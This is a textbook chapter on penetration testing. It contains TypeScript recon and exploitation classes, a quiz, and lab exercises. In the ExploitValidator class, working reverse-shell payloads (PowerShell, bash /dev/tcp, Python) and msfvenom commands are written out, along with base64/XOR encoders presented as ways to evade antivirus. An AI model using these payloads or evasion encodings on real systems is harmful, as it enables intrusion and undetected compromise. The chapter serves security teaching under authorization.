- **The pentesting lifecycle** consists of 8 phases: Recon, Scanning, Enumeration, Exploitation, Post-Exploitation, Pivoting, C2, and Reporting — each with specific tools and techniques.
- **Practical skills** include: Nmap scanning, Metasploit exploitation, SQLmap, Hydra, Mimikatz, Buffer Overflow development, Sliver C2 setup, YARA rule creation, and professional report writing.
- **The legal landscape** varies significantly by country (CFAA, CMA, GDPR). Understanding legal frameworks and authorization requirements is critical for every penetration tester.
- **Interview preparation** should cover: methodology, privilege escalation, C2 frameworks, pass-the-hash, Kerberoasting, SSRF, AD attack chains, and the OSCP methodology.

---

---

## TypeScript Implementations

### Reconnaissance Toolkit


The following TypeScript implementation provides automated reconnaissance capabilities for penetration testing engagements, including subdomain enumeration, port scanning, and technology fingerprinting.

```typescript
/**
 * Represents the result of a full reconnaissance scan
 */
interface ReconResult {
  domain: string;
  subdomains: string[];
  openPorts: Array<{ port: number; service: string; version: string }>;
  technologies: Array<{ name: string; version: string; category: string }>;
  endpoints: string[];
}

/**
 * Raw port scan result
 */
interface PortScanResult {
  port: number;
  open: boolean;
  service: string;
}

/**
 * Technology fingerprint extracted from HTTP responses
 */
interface TechFingerprint {
  name: string;
  version: string;
}

/**
 * ReconToolkit — performs automated reconnaissance for penetration tests
 * using DNS enumeration, TCP port scanning, and HTTP fingerprinting.
 */
class ReconToolkit {
  private readonly commonSubdomains: string[] = [
    'www', 'mail', 'admin', 'api', 'dev', 'staging',
    'test', 'vpn', 'portal', 'secure', 'app', 'blog',
    'cdn', 'docs', 'support', 'status', 'git', 'jenkins',
    'jira', 'confluence', 'wiki', 'dashboard', 'monitor',
    'grafana', 'prometheus', 'kibana', 'elastic', 'splunk',
    'webmail', 'owa', 'autodiscover', 'remote', 'ssh',
  ];

  private readonly servicePortMap: Record<number, string> = {
    21: 'FTP', 22: 'SSH', 23: 'Telnet', 25: 'SMTP',
    53: 'DNS', 80: 'HTTP', 110: 'POP3', 143: 'IMAP',
    443: 'HTTPS', 445: 'SMB', 465: 'SMTPS', 993: 'IMAPS',
    995: 'POP3S', 1433: 'MSSQL', 1521: 'Oracle DB',
    2049: 'NFS', 2375: 'Docker', 3306: 'MySQL',
    3389: 'RDP', 5432: 'PostgreSQL', 5900: 'VNC',
    6379: 'Redis', 8080: 'HTTP-Alt', 8443: 'HTTPS-Alt',
    9090: 'Prometheus', 9200: 'Elasticsearch', 27017: 'MongoDB',
  };

  /**
   * Enumerates subdomains for a given domain using DNS resolution
   */
  async enumerateSubdomains(domain: string): Promise<string[]> {
    const discovered: string[] = [];
    const resolvers = ['8.8.8.8', '1.1.1.1', '208.67.222.222'];

    console.log(`[*] Enumerating subdomains for: ${domain}`);
    console.log(`[*] Testing ${this.commonSubdomains.length} common subdomains...`);

    for (const sub of this.commonSubdomains) {
      const fqdn = `${sub}.${domain}`;
      try {
        // Simulated DNS resolution — in production use dns.promises.resolve4
        const resolved = await this.resolveDNS(fqdn, resolvers);
        if (resolved) {
          discovered.push(fqdn);
          console.log(`  [+] Found: ${fqdn} -> ${resolved}`);
        }
      } catch {
        // Subdomain does not resolve — silently continue
      }
      // Rate-limit to avoid DNS throttling
      await this.delay(50);
    }

    return discovered;
  }

  /**
   * Simulates DNS resolution (in production, use Node.js dns module)
   */
  private async resolveDNS(
    hostname: string,
    resolvers: string[],
  ): Promise<string | null> {
    // Simulate resolution — real implementation uses dns.resolve4
    const simulatedRecords: Record<string, string> = {
      'www.example.com': '93.184.216.34',
      'api.example.com': '93.184.216.35',
      'mail.example.com': '93.184.216.36',
      'admin.example.com': '10.0.0.1',
      'dev.example.com': '10.0.0.2',
      'vpn.example.com': '203.0.113.50',
    };

    return simulatedRecords[hostname] || null;
  }

  /**
   * Scans specified ports on a target host
   */
  async scanPorts(
    host: string,
    ports: number[],
  ): Promise<PortScanResult[]> {
    const results: PortScanResult[] = [];
    console.log(`[*] Scanning ${ports.length} ports on ${host}...`);

    for (const port of ports) {
      const service = this.servicePortMap[port] || 'Unknown';
      try {
        // Simulated TCP connect scan — in production use net.Socket
        const open = await this.tryConnect(host, port);
        results.push({ port, open, service });
        if (open) {
          console.log(`  [+] Port ${port}/${service} — OPEN`);
        }
      } catch {
        results.push({ port, open: false, service });
      }
    }

    return results;
  }

  /**
   * Simulates a TCP connection attempt
   */
  private async tryConnect(host: string, port: number): Promise<boolean> {
    // Simulate connection — real implementation uses net.createConnection
    const openPorts: Record<string, number[]> = {
      '93.184.216.34': [80, 443, 21],
      '93.184.216.35': [443, 8443, 8080],
      '203.0.113.50': [443, 22, 3389],
    };

    const hostPorts = openPorts[host];
    if (!hostPorts) return false;

    await this.delay(30 + Math.random() * 50);
    return hostPorts.includes(port);
  }

  /**
   * Fingerprints web technologies from HTTP response data
   */
  fingerprintTechnologies(response: {
    headers: Record<string, string>;
    body: string;
  }): TechFingerprint[] {
    const fingerprints: TechFingerprint[] = [];
    const headerStr = JSON.stringify(response.headers).toLowerCase();
    const bodyStr = response.body.toLowerCase();

    // Server header fingerprinting
    if (response.headers['server']) {
      const server = response.headers['server'];
      if (server.includes('nginx')) {
        fingerprints.push({ name: 'Nginx', version: server.replace('nginx/', '') });
      } else if (server.includes('apache')) {
        fingerprints.push({ name: 'Apache HTTP Server', version: server.replace('Apache/', '') });
      } else if (server.includes('iis')) {
        fingerprints.push({ name: 'IIS', version: server.match(/\d+\.\d+/)?.[0] || 'Unknown' });
      } else if (server.includes('cloudflare')) {
        fingerprints.push({ name: 'Cloudflare', version: 'Unknown' });
      }
    }

    // X-Powered-By fingerprinting
    if (response.headers['x-powered-by']) {
      const xpb = response.headers['x-powered-by'];
      if (xpb.includes('PHP')) {
        fingerprints.push({ name: 'PHP', version: xpb.replace('PHP/', '') });
      } else if (xpb.includes('ASP.NET')) {
        fingerprints.push({ name: 'ASP.NET', version: xpb.replace('ASP.NET', '').trim() });
      } else if (xpb.includes('Express')) {
        fingerprints.push({ name: 'Express', version: xpb.replace('Express', '').trim() });
      }
    }

    // Set-Cookie fingerprinting
    const cookies = response.headers['set-cookie'] || '';
    if (cookies.includes('PHPSESSID')) {
      fingerprints.push({ name: 'PHP Session', version: 'Unknown' });
    }
    if (cookies.includes('JSESSIONID')) {
      fingerprints.push({ name: 'Java/J2EE', version: 'Unknown' });
    }
    if (cookies.includes('ASPSESSIONID')) {
      fingerprints.push({ name: 'ASP Classic', version: 'Unknown' });
    }

    // Body-based fingerprinting
    if (bodyStr.includes('wp-content') || bodyStr.includes('wordpress')) {
      fingerprints.push({ name: 'WordPress', version: 'Unknown (check /wp-json/)' });
    }
    if (bodyStr.includes('csrf-token') && bodyStr.includes('laravel')) {
      fingerprints.push({ name: 'Laravel', version: 'Unknown' });
    }
    if (bodyStr.includes('__next') || bodyStr.includes('next.data')) {
      fingerprints.push({ name: 'Next.js', version: 'Unknown' });
    }
    if (bodyStr.includes('reactroot') || bodyStr.includes('react-dom')) {
      fingerprints.push({ name: 'React', version: 'Unknown' });
    }

    return fingerprints;
  }

  /**
   * Full reconnaissance scan combining all techniques
   */
  async fullRecon(domain: string, ports: number[]): Promise<ReconResult> {
    console.log(`=== Starting Full Reconnaissance for ${domain} ===\n`);

    const subdomains = await this.enumerateSubdomains(domain);

    // Scan open ports on the primary domain
    const resolvedIp = await this.resolveDNS(domain, ['8.8.8.8']);
    let openPorts: Array<{ port: number; service: string; version: string }> = [];

    if (resolvedIp) {
      // Also scan subdomain IPs if available
      const allPorts = await this.scanPorts(resolvedIp, ports);
      openPorts = allPorts
        .filter(p => p.open)
        .map(p => ({
          port: p.port,
          service: p.service,
          version: this.detectVersion(resolvedIp, p.port),
        }));
    }

    // Fingerprint technologies
    const mockResponse = {
      headers: {
        'server': 'nginx/1.24.0',
        'x-powered-by': 'PHP/8.2.0',
        'set-cookie': 'PHPSESSID=abc123; path=/',
      },
      body: '<html><head><title>WordPress Site</title></head><body>wp-content</body></html>',
    };
    const technologies = this.fingerprintTechnologies(mockResponse).map(t => ({
      ...t,
      category: this.categorizeTech(t.name),
    }));

    const endpoints = [
      `https://${domain}/robots.txt`,
      `https://${domain}/sitemap.xml`,
      `https://${domain}/.well-known/security.txt`,
      `https://${domain}/admin/`,
      `https://${domain}/api/`,
    ];

    return { domain, subdomains, openPorts, technologies, endpoints };
  }

  private detectVersion(ip: string, port: number): string {
    // Simulate version detection via service banner grabbing
    const versionMap: Record<string, string> = {
      '93.184.216.34_80': 'Apache 2.4.57',
      '93.184.216.34_443': 'nginx 1.24.0',
      '93.184.216.35_443': 'OpenResty 1.21.4',
    };
    return versionMap[`${ip}_${port}`] || 'Unknown';
  }

  private categorizeTech(name: string): string {
    const categories: Record<string, string[]> = {
      'Web Server': ['Nginx', 'Apache HTTP Server', 'IIS', 'OpenResty', 'Cloudflare'],
      'Backend': ['PHP', 'ASP.NET', 'Express', 'Laravel', 'Java/J2EE', 'ASP Classic'],
      'CMS': ['WordPress'],
      'Frontend': ['React', 'Next.js'],
      'Session': ['PHP Session'],
    };

    for (const [category, techs] of Object.entries(categories)) {
      if (techs.includes(name)) return category;
    }
    return 'Other';
  }

  private delay(ms: number): Promise<void> {
    return new Promise(resolve => setTimeout(resolve, ms));
  }
}

// ── Example Usage ─────────────────────────────────────────────

async function runReconDemo() {
  const toolkit = new ReconToolkit();

  // Quick subdomain enumeration demo
  const subdomains = await toolkit.enumerateSubdomains('example.com');
  console.log(`\nDiscovered ${subdomains.length} subdomains\n`);

  // Port scanning demo
  const commonPorts = [21, 22, 23, 25, 80, 443, 445, 3389, 8080, 8443, 3306, 5432, 27017];
  const scanResults = await toolkit.scanPorts('93.184.216.34', commonPorts);
  console.log(`\nOpen ports: ${scanResults.filter(r => r.open).length}`);

  // Technology fingerprinting demo
  const techs = toolkit.fingerprintTechnologies({
    headers: {
      'server': 'nginx/1.24.0',
      'x-powered-by': 'PHP/8.2.0',
      'set-cookie': 'PHPSESSID=abc123; path=/',
    },
    body: '<html><head><title>Test</title><link rel="stylesheet" href="/wp-content/themes/..." /></head></html>',
  });
  console.log(`\nDetected technologies:`);
  techs.forEach(t => console.log(`  - ${t.name} ${t.version}`));
}

runReconDemo().catch(console.error);
```

### Exploitation Validator


This TypeScript implementation models the exploitation validation process, including vulnerability checking, shellcode generation, reverse payload construction, and privilege escalation assessment.

```typescript
/**
 * Vulnerability descriptor from a scanner or advisory
 */
interface Vulnerability {
  id: string;
  name: string;
  cve: string;
  cvss: number;
  exploitAvailable: boolean;
  exploitCommand: string;
}

/**
 * Result of attempting an exploit against a target
 */
interface ExploitResult {
  success: boolean;
  output: string;
  privilegeLevel: string;
  shellType: string | null;
}

/**
 * ExploitValidator — assesses vulnerability exploitability,
 * generates payloads, and simulates exploitation chains.
 */
class ExploitValidator {
  private readonly decoder = new TextDecoder();

  /**
   * Checks whether a given vulnerability can be exploited against a target
   */
  async checkExploitability(
    vuln: Vulnerability,
    target: string,
  ): Promise<ExploitResult> {
    console.log(`[*] Testing exploitability of ${vuln.cve} against ${target}`);
    console.log(`    Name: ${vuln.name}`);
    console.log(`    CVSS: ${vuln.cvss}`);
    console.log(`    Exploit Available: ${vuln.exploitAvailable}`);

    if (!vuln.exploitAvailable) {
      return {
        success: false,
        output: `No known public exploit available for ${vuln.cve}`,
        privilegeLevel: 'none',
        shellType: null,
      };
    }

    // Simulate exploitation logic
    await this.delay(500);

    // Determine outcome based on CVSS and target signature
    const outcome = this.simulateExploitation(vuln, target);

    console.log(`[${outcome.success ? '+' : '-'}] Exploitation ${outcome.success ? 'succeeded' : 'failed'}`);
    if (outcome.success) {
      console.log(`    Privilege: ${outcome.privilegeLevel}`);
      console.log(`    Shell: ${outcome.shellType}`);
    }

    return outcome;
  }

  /**
   * Simulates exploitation — in production this would interface
   * with actual exploit modules (Metasploit, Custom scripts, etc.)
   */
  private simulateExploitation(
    vuln: Vulnerability,
    target: string,
  ): ExploitResult {
    // Simulate target characteristics
    const isWindows = target.includes('win') || target.includes('10.0');
    const isLinux = target.includes('nix') || target.includes('linux');
    const isHighValue = vuln.cvss >= 9.0;
    const isRemote = vuln.id.includes('RCE') || vuln.id.includes('EXEC');

    // Determine success probability based on vulnerability attributes
    const baseSuccessRate = vuln.cvss >= 9.0 ? 0.8 : vuln.cvss >= 7.0 ? 0.5 : 0.2;
    const success = Math.random() < baseSuccessRate;

    if (!success) {
      return {
        success: false,
        output: `Exploit failed — target may be patched or protected by WAF/EDR`,
        privilegeLevel: 'none',
        shellType: null,
      };
    }

    // Determine privilege level achieved
    let privilegeLevel = 'user';
    let shellType: string | null = null;

    if (isHighValue && isRemote) {
      privilegeLevel = Math.random() < 0.3 ? 'root' : 'user';
    } else if (vuln.id.includes('LPE') || vuln.id.includes('PRIVESC')) {
      privilegeLevel = 'root';
    }

    // Determine shell type
    if (isWindows) {
      shellType = privilegeLevel === 'root' ? 'Meterpreter (SYSTEM)' : 'Meterpreter (user)';
    } else if (isLinux) {
      shellType = privilegeLevel === 'root' ? 'Reverse Shell (/bin/bash)' : 'Reverse Shell (/bin/sh)';
    }

    const output = [
      `[+] Target ${target} is vulnerable to ${vuln.cve}`,
      `[+] Payload delivered successfully`,
      `[+] Session established (${shellType})`,
      privilegeLevel === 'root' ? '[+] Privilege escalation confirmed' : '',
    ].filter(Boolean).join('\n');

    return { success, output, privilegeLevel, shellType };
  }

  /**
   * Generates a reverse shell payload for a given vulnerability
   */
  generatePayload(
    vuln: Vulnerability,
    target: string,
    lhost: string,
    lport: number,
  ): string {
    console.log(`[*] Generating payload for ${vuln.cve}`);
    console.log(`    LHOST: ${lhost}:${lport}`);

    const isWindows = target.includes('win');
    const payloads: string[] = [];

    // Meterpreter-style staged payload (Windows)
    if (isWindows) {
      payloads.push(
        '// Windows Reverse Shell (PowerShell)',
        '$client = New-Object System.Net.Sockets.TCPClient(' +
          `'${lhost}',${lport});`,
        '$stream = $client.GetStream();',
        '[byte[]]$bytes = 0..65535|%{0};',
        'while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){',
        '  $data = (New-Object -TypeName System.Text.ASCIIEncoding).',
        '    GetString($bytes,0, $i);',
        '  $sendback = (iex $data 2>&1 | Out-String );',
        '  $sendback2 = $sendback + "PS " + (pwd).Path + "> ";',
        '  $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);',
        '  $stream.Write($sendbyte,0,$sendbyte.Length);',
        '  $stream.Flush()',
        '};',
        '$client.Close()',
      );
    }

    // Linux reverse shell (Bash + Python fallback)
    if (!isWindows || target.includes('nix')) {
      payloads.push(
        '#!/bin/bash',
        '# Linux Reverse Shell',
        `bash -i >& /dev/tcp/${lhost}/${lport} 0>&1`,
        '',
        '# Python fallback if /dev/tcp is not available',
        `python3 -c 'import socket,subprocess,os;`,
        `s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);`,
        `s.connect(("${lhost}",${lport}));`,
        `os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);`,
        `subprocess.call(["/bin/sh","-i"])'`,
      );
    }

    // Msfvenom-style payload metadata
    const msfPayload = [
      '',
      '# msfvenom equivalent:',
      isWindows
        ? `# msfvenom -p windows/meterpreter/reverse_tcp ` +
          `LHOST=${lhost} LPORT=${lport} -f exe -o payload.exe`
        : `# msfvenom -p linux/x64/meterpreter/reverse_tcp ` +
          `LHOST=${lhost} LPORT=${lport} -f elf -o payload.elf`,
    ];

    return payloads.concat(msfPayload).join('\n');
  }

  /**
   * Encodes a payload string using base64 with optional transformations
   * to bypass basic signature-based detection
   */
  encodePayload(payload: string, encoding: 'base64' | 'hex' | 'custom'): string {
    switch (encoding) {
      case 'base64': {
        const encoded = Buffer.from(payload, 'utf-8').toString('base64');
        // Wrap in decoder command
        return `echo "${encoded}" | base64 -d | bash`;
      }
      case 'hex': {
        const hex = Buffer.from(payload, 'utf-8').toString('hex');
        return `echo "${hex}" | xxd -r -p | bash`;
      }
      case 'custom': {
        // XOR-based encoding with single-byte key
        const key = 0x41;
        const xored = payload
          .split('')
          .map(ch => String.fromCharCode(ch.charCodeAt(0) ^ key))
          .join('');
        const encoded = Buffer.from(xored, 'utf-8').toString('base64');
        return (
          `# Custom encoded payload (XOR key: 0x${key.toString(16)})\n` +
          `python3 -c "exec(''.join(chr(ord(c)^0x41) for c in ` +
          `'${encoded}'.decode('base64')))"`
        );
      }
    }
  }

  /**
   * Simulates a Meterpreter-style session after successful exploitation
   */
  simulateMeterpreterSession(
    target: string,
    privilegeLevel: string,
  ): string[] {
    const commands: string[] = [];
    const timestamp = new Date().toISOString();

    commands.push(`Meterpreter session opened at ${timestamp}`);
    commands.push(`Target: ${target}`);
    commands.push(`Privileges: ${privilegeLevel}`);

    // Simulated Meterpreter commands
    const meterpreterOutput = [
      'meterpreter > sysinfo',
      `  Computer    : ${target.split('.')[0]}`,
      `  OS          : ${target.includes('win') ? 'Windows Server 2022' : 'Ubuntu 22.04'}`,
      `  Arch        : x64`,
      `  Domain      : corp.internal`,
      `  Meterpreter : x64/windows`,
      '',
      'meterpreter > getuid',
      `  Server username: ${privilegeLevel === 'root' ? 'NT AUTHORITY\\SYSTEM' : 'CORP\\jsmith'}`,
      '',
      'meterpreter > getsystem',
      privilegeLevel === 'root'
        ? '  ...got system (via Token Duplication)'
        : '  [-] Not able to elevate, try different technique',
      '',
      'meterpreter > hashdump',
      '  Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::',
      '  jsmith:1001:...hash...:...ntlm...:::',
      '',
      'meterpreter > background',
      '  [*] Backgrounding session 1...',
    ];

    return commands.concat(meterpreterOutput);
  }

  private delay(ms: number): Promise<void> {
    return new Promise(resolve => setTimeout(resolve, ms));
  }
}

// ── Example Usage ─────────────────────────────────────────────

async function exploitationDemo() {
  const validator = new ExploitValidator();

  // Define sample vulnerabilities
  const vulnerabilities: Vulnerability[] = [
    {
      id: 'RCE-001',
      name: 'Apache Log4j Remote Code Execution',
      cve: 'CVE-2021-44228',
      cvss: 10.0,
      exploitAvailable: true,
      exploitCommand: 'python3 log4j_scanner.py --target http://target.com',
    },
    {
      id: 'LPE-001',
      name: 'Dirty Pipe Local Privilege Escalation',
      cve: 'CVE-2022-0847',
      cvss: 7.8,
      exploitAvailable: true,
      exploitCommand: './dirtypipe /bin/sh /usr/bin/su',
    },
  ];

  // Test exploitation
  for (const vuln of vulnerabilities) {
    const target = vuln.id === 'RCE-001' ? 'win-web-01.corp.internal' : 'nix-app-02.corp.internal';
    const result = await validator.checkExploitability(vuln, target);
    console.log(`\nResult: ${result.success ? 'SUCCESS' : 'FAILED'}`);
    console.log(`Output:\n${result.output}\n`);

    if (result.success) {
      // Generate reverse shell payload
      const payload = validator.generatePayload(vuln, target, '192.168.1.100', 4444);
      console.log('=== Generated Payload ===');
      console.log(payload);

      // Encode payload
      const encoded = validator.encodePayload(payload, 'base64');
      console.log('\n=== Encoded Payload (Base64) ===');
      console.log(encoded);

      // Simulate Meterpreter session
      const session = validator.simulateMeterpreterSession(target, result.privilegeLevel);
      console.log('\n=== Meterpreter Session ===');
      session.forEach(line => console.log(line));
    }

    console.log('\n' + '='.repeat(60) + '\n');
  }
}

exploitationDemo().catch(console.error);
```

---

## Mermaid Diagrams

### Penetration Testing Methodology


This flowchart illustrates the complete penetration testing lifecycle, from initial reconnaissance through final reporting, aligned with PTES and OWASP standards.



### Metasploit Exploitation Chain


This sequence diagram models the full Metasploit exploitation flow, from initial msfconsole launch through payload delivery, Meterpreter session establishment, and post-exploitation activities.



---

## Chapter Quiz

Test your understanding of ethical hacking and penetration testing concepts covered in this chapter.

**1. Which phase of the penetration testing lifecycle follows "Scanning & Enumeration"?**

A) Reconnaissance
B) Exploitation
C) Post-Exploitation
D) Reporting

<details>
<summary>Answer</summary>
**B) Exploitation** — The standard pentesting lifecycle is: Reconnaissance → Scanning & Enumeration → Exploitation → Post-Exploitation → Pivoting → C2 → Reporting.
</details>

---

**2. What is the primary difference between a vulnerability scan and a penetration test?**

A) Vulnerability scans are automated; penetration tests include manual exploitation
B) Vulnerability scans require authorization; penetration tests do not
C) Vulnerability scans test web apps only; penetration tests test networks only
D) There is no meaningful difference

<details>
<summary>Answer</summary>
**A) Vulnerability scans are automated; penetration tests include manual exploitation** — Scans identify potential vulnerabilities passively; pentests actively attempt to exploit them to validate impact.
</details>

---

**3. In Metasploit, which command is used to search for modules related to a specific vulnerability?**

A) `search`
B) `find`
C) `locate`
D) `grep`

<details>
<summary>Answer</summary>
**A) `search`** — Example: `search cve:2021-44228` or `search type:exploit platform:windows` within msfconsole.
</details>

---

**4. Which tool is specifically designed for Active Directory attack path enumeration and analysis?**

A) Nmap
B) BloodHound
C) Wireshark
D) John the Ripper

<details>
<summary>Answer</summary>
**B) BloodHound** — BloodHound uses graph theory to map AD relationships and identify the shortest path to Domain Admin via ACL analysis, group memberships, and session data.
</details>

---

**5. During a penetration test, what does "pivoting" refer to?**

A) Changing the scope of the pentest
B) Using a compromised host to attack other systems on a different network segment
C) Switching between different penetration testing tools
D) Reporting findings to the client mid-engagement

<details>
<summary>Answer</summary>
**B) Using a compromised host as a jump box** — Pivoting (or lateral movement) routes traffic through the compromised host to reach otherwise inaccessible internal networks.
</details>

---

**6. What is the purpose of the "Authorization Letter" or "Rules of Engagement" document?**

A) To list all vulnerabilities found during the test
B) To provide legal protection by defining the scope, boundaries, and permissions for the pentest
C) To serve as the final penetration test report
D) To document the pentester's certification status

<details>
<summary>Answer</summary>
**B) Legal protection via scope and boundaries** — The RoE defines target systems, testing times, allowed techniques, data handling rules, and emergency contacts. It protects both the tester and the client.
</details>

---

**7. In the context of privilege escalation, what does "SeImpersonatePrivilege" enable?**

A) Impersonating domain users without credentials
B) Disabling security controls on the system
C) Running code as a different user, potentially leading to SYSTEM access
D) Bypassing firewall rules on the network

<details>
<summary>Answer</summary>
**C) Potential SYSTEM access** — Tools like JuicyPotato and PrintSpoofer leverage SeImpersonatePrivilege to escalate from a service account to SYSTEM by impersonating a privileged token.
</details>

---

**8. Which of the following is NOT a common subdomain enumeration technique?**

A) Dictionary/brute-force against DNS servers
B) Certificate Transparency log analysis (crt.sh)
C) SNMP community string walking
D) Search engine dorking (site:domain.com)

<details>
<summary>Answer</summary>
**C) SNMP community string walking** — SNMP walking is used for enumerating SNMP-managed devices, not for discovering subdomains. Subdomain enumeration relies on DNS queries, certificate logs, search engines, and web archives.
</details>

---

**9. What does the `hashdump` command in Meterpreter accomplish?**

A) Dumps the contents of the system's RAM
B) Extracts NTLM password hashes from the SAM database
C) Lists all scheduled tasks on the target
D) Downloads files from the target system

<details>
<summary>Answer</summary>
**B) Extracts NTLM password hashes from the SAM database** — `hashdump` reads the Windows SAM registry hive to extract user account password hashes, which can then be cracked offline.
</details>

---

**10. When a penetration tester discovers a critical vulnerability during testing, the ethical obligation is to:**

A) Exploit it silently and keep it secret until the report
B) Immediately stop testing and notify the point of contact per the Rules of Engagement
C) Post the exploit code on GitHub immediately
D) Ignore it and continue with the test plan

<details>
<summary>Answer</summary>
**B) Immediately notify the point of contact per the RoE** — Critical findings (especially those involving active exploitation or data exposure) should be reported immediately so the client can take emergency protective measures, not wait for the final report.
</details>

---

## Practical Takeaways

1. **Automate reconnaissance** — Use the ReconToolkit TypeScript code to build automated recon pipelines that feed findings directly into your exploitation workflow.
2. **Validate before exploiting** — Always verify that a vulnerability is truly exploitable in the target environment. Use the ExploitValidator's `checkExploitability` method to reduce false positives.
3. **Payload encoding matters** — Basic encodings (Base64, hex, XOR) can bypass simple signature-based AV. Combine multiple layers for more effective evasion.
4. **Document every step** — The Metasploit sequence diagram shows why proper documentation is critical: each exploitation chain must be reproducible for the final report.
5. **Always operate under authorization** — Never run reconnaissance or exploitation tools without written authorization. The Rules of Engagement document is your legal protection.
6. **Post-exploitation is where real impact is measured** — Getting initial access is only half the battle; privilege escalation, lateral movement, and data exfiltration demonstrate the true risk.
7. **Report with context** — A good pentest report doesn't just list vulnerabilities; it explains business impact, maps findings to frameworks (OWASP, MITRE ATT&CK), and provides clear, actionable remediation steps.

---

## Exercises

### Review Questions

1. List the six phases of the penetration testing lifecycle in order.

<details>
<summary>Solution</summary>
1) Planning and Reconnaissance, 2) Scanning, 3) Gaining Access (Exploitation), 4) Maintaining Access, 5) Analysis, 6) Reporting.
</details>

2. What is the difference between a vulnerability scan and a penetration test?

<details>
<summary>Solution</summary>
A vulnerability scan is automated and identifies known CVEs and misconfigurations. A penetration test is manual plus automated, actively exploits vulnerabilities to prove business impact, and includes chained attacks and business logic testing.
</details>

3. Explain the concept of pivoting in a penetration test and why it matters.

<details>
<summary>Solution</summary>
Pivoting uses a compromised host as a relay to access otherwise unreachable internal systems. It matters because networks are segmented — pivoting demonstrates how a single compromised host can lead to internal network compromise.
</details>

4. What are the three main components of the Rules of Engagement document?

<details>
<summary>Solution</summary>
1) Scope (in-scope and out-of-scope targets), 2) Authorization (signed approval and emergency contacts), 3) Constraints (allowed techniques, testing schedule, data handling rules).
</details>

5. What is the difference between privilege escalation and lateral movement?

<details>
<summary>Solution</summary>
Privilege escalation: gaining higher privileges on the same host (e.g., user to root). Lateral movement: moving from one host to another across the network. Both are required for a full attack chain.
</details>

6. How does BloodHound find attack paths in Active Directory?

<details>
<summary>Solution</summary>
BloodHound collects AD data (users, groups, computers, sessions, ACLs) and maps relationships as a graph. It finds attack paths via group memberships, ACL permissions, session data, and Kerberos delegation, then computes the shortest path to a target like Domain Admin.
</details>

### Practical Exercises


1. **Build Your Pentesting Lab:** Using the lab setup guide from Chapter 1 (Section 7), set up Kali Linux and Metasploitable 2. Perform a full penetration test:
   - Reconnaissance: nmap -sV -p- against the target
   - Enumeration: Identify all services running
   - Exploitation: Exploit at least 3 vulnerabilities (vsFTPd, UnrealIRCd, Samba)
   - Post-Exploitation: Get a Meterpreter shell, dump password hashes
   - Document every step with screenshots

<details>
<summary>Solution</summary>
Run a full port scan to identify services. Exploit vsFTPd 2.3.4 backdoor, UnrealIRCd backdoor, and Samba usermap script via the Metasploit framework. After gaining access, obtain a shell and dump password hashes. Document each command with timestamps and screenshots for the report.
</details>

2. **Web Application Penetration Test:** Set up DVWA (Damn Vulnerable Web Application) on a target VM. Perform:
   - SQL injection (all types: in-band, blind, out-of-band)
   - XSS (reflected, stored, DOM-based)
   - CSRF attack
   - File inclusion (LFI/RFI)
   - Command injection
   Document findings with OWASP Top 10 mappings and remediation steps.

<details>
<summary>Solution</summary>
Test SQL injection with boolean and time-based techniques. Test reflected and stored XSS. Craft a CSRF proof-of-concept HTML form. Exploit LFI to read system files. Map each finding to OWASP Top 10 categories and provide clear remediation steps such as parameterized queries and output encoding.
</details>

3. **Active Directory Attack Lab:** Set up a Windows Domain Controller + Windows 10 workstation. From Kali:
   - Enumerate AD: ldapsearch, BloodHound
   - Kerberoast a service account
   - AS-REP roast a user with pre-auth disabled
   - Pass-the-hash to move laterally
   - DCSync to dump all domain hashes
   Document the full attack chain with MITRE ATT&CK mappings.

<details>
<summary>Solution</summary>
Use Impacket tools for Kerberoasting, AS-REP roasting, pass-the-hash, and DCSync attacks. Use BloodHound for AD enumeration and attack path discovery. Map each technique to MITRE ATT&CK identifiers (T1558.003, T1558.004, T1550.002, T1003.006) in the documentation.
</details>

4. **Report Writing Exercise:** Write a professional penetration test report for a fictional web application. Include:
   - Executive summary (non-technical)
   - Technical findings with OWASP mapping
   - Risk ratings (CVSS 3.1 scores)
   - Proof of concept for each finding
   - Remediation recommendations
   - Screenshots and code blocks

<details>
<summary>Solution</summary>
Write a 1-2 page executive summary describing overall risk posture. Create a findings table with vulnerability name, OWASP category, CVSS score, affected endpoint, proof of concept, and remediation. Include screenshots of exploitation steps and code snippets showing both vulnerable and fixed implementations.
</details>

### Challenge Problems

1. **Boot-to-Root Challenge:** Complete a vulnerable VM from VulnHub or Hack The Box (e.g., Kioptrix, Mr. Robot, or an easy HTB box). Document every step:
   - Reconnaissance methodology
   - Exploitation chains
   - Privilege escalation techniques
   - Flags captured
   Write a walkthrough suitable for a CTF writeup blog.

<details>
<summary>Solution</summary>
Perform initial recon with port scanning and directory enumeration. Exploit a web application vulnerability (e.g., WordPress plugin upload) to gain initial access. Escalate privileges using a misconfigured SUID binary. Capture the flag file and document each step with commands and output for a blog-style walkthrough.
</details>

2. **Custom Exploit Development:** Find a published CVE with a PoC available. Study the vulnerability. Write your own custom exploit in Python or TypeScript that:
   - Performs proper socket communication
   - Delivers a custom payload (reverse shell)
   - Handles errors gracefully
   - Works against the vulnerable target

<details>
<summary>Solution</summary>
Study a publicly documented vulnerability. Write a Python script that opens a TCP socket to the target, sends a crafted payload that triggers the vulnerability, and delivers a callback payload. Implement try/catch error handling and socket timeouts. Test against a lab target to confirm the exploit works.
</details>

3. **Purple Team Exercise:** Work with a partner (or dual VMs). Red Team:
   - Deploy a C2 framework (Covenant, Sliver, or Empire)
   - Establish persistence on a target
   - Exfiltrate a "flag" file
   Blue Team:
   - Deploy Sysmon + Wazuh/Elastic on the target
   - Create detection rules for the C2 communication
   - Detect and contain the breach
   Debrief: Compare red team actions vs blue team detections

<details>
<summary>Solution</summary>
Red team deploys a C2 implant via phishing, establishes persistence via scheduled task, and exfiltrates the flag via HTTP. Blue team uses Sysmon and a SIEM to detect process creation anomalies and outbound connections to unknown IPs. Create custom detection rules. Debrief to identify which actions were detected versus missed and tune rules accordingly.
</details>
